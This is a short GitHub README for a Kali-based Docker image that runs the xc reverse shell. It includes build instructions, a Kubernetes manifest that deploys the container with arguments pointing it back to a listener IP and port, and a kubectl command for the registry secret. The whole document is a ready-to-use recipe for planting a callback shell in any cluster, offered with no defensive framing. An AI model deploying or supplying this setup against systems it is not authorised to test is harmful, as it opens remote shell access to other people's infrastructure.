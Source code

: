 # docker-reverse-kali

This is a simple Kali based Docker image with a reverse shell. The reverse shell used is [xc](https://github.com/xct/xc).

Build it, `docker build -t whatever .`

To deploy it anywhere you need to upload it to a registry. [Here's a good tutorial](https://gabrieltanner.org/blog/docker-registry) on how to run your own Docker registry.

## Why?

idk? Deploy this anywhere to have a Kali that connects back to an XC listener. For example, in Kubernetes,

```
apiVersion: v1
kind: Namespace
metadata:
  name: rshell
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: rshell
  namespace: rshell
spec:
  selector:
    matchLabels:
      app: rshell
  template:
    metadata:
      labels:
        app: rshell
    spec:
      containers:
      - name: rshell
        image: your.private.docker.registry/rshell-kali
        command: ["/xc/xc"]
        args: ["192.168.1.100", "1337"] # your listener ip and port
      imagePullSecrets:
      - name: rshell-dr-secret
---
apiVersion: v1
kind: Service
metadata:
  name: rshell-entrypoint
  namespace: rshell
spec:
  selector:
    app: rshell
  ports:
  - port: 80
    targetPort: 8888
  type: LoadBalancer
```

(and create the secret too)

```
kubectl create secret -n rshell docker-registry rshell-dr-secret --docker-server=your.private.docker.registry --docker-username=john --docker-password=pass --docker-email=john@kali
```
